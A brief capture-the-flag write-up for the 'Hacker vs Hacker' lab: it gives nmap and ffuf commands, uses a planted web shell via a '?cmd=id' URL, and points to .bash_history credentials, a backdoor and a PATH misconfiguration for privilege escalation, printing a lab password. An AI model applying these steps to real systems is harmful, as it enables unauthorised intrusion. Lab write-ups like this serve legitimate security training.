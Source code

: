 
# Hacker vs Hacker

## *What is the user.txt flag?*

We'll start with nmap scan:

```bash
$ sudo nmap 10.10.207.8 -Pn -p- -vv -T4 -A --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Select running services:

```bash
$ cat nmap-scan | grep -o -e '[0-9]\+/tcp .*'
```

- [ ] 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- [ ] 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))

By looking at comments we discover there's a ***/cvs*** directory, where the cvs are
uploaded. Visit it and read the hacker's taunt: it becomes apparent that the reverse
shell's name is like REVERSE-SHELL.pdf.php

Launch ffuf to find out the name:

```bash
$ ./ffuf -u http://10.10.207.8/cvs/FUZZ.pdf.php -ic -t 55 -o ~/CTF/HackerVsHacker/ffuf-csv-report.html -w ~/CyberSecurity/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Visit http://10.10.207.8/cvs/shell.pdf.php

Try bruteforcing url parameters to gain RCE. The most common one is "cmd" - and we're
lucky, the hacker used it!

PoC: http://10.10.207.8/cvs/shell.pdf.php?cmd=id

---

## *What is the proof.txt flag?*

Read the .bash_history file of lachlan. There's a name of backdoor that can be used for
LPE. Abuse the misconfigured PATH variable. There's also a password: thisistheway123



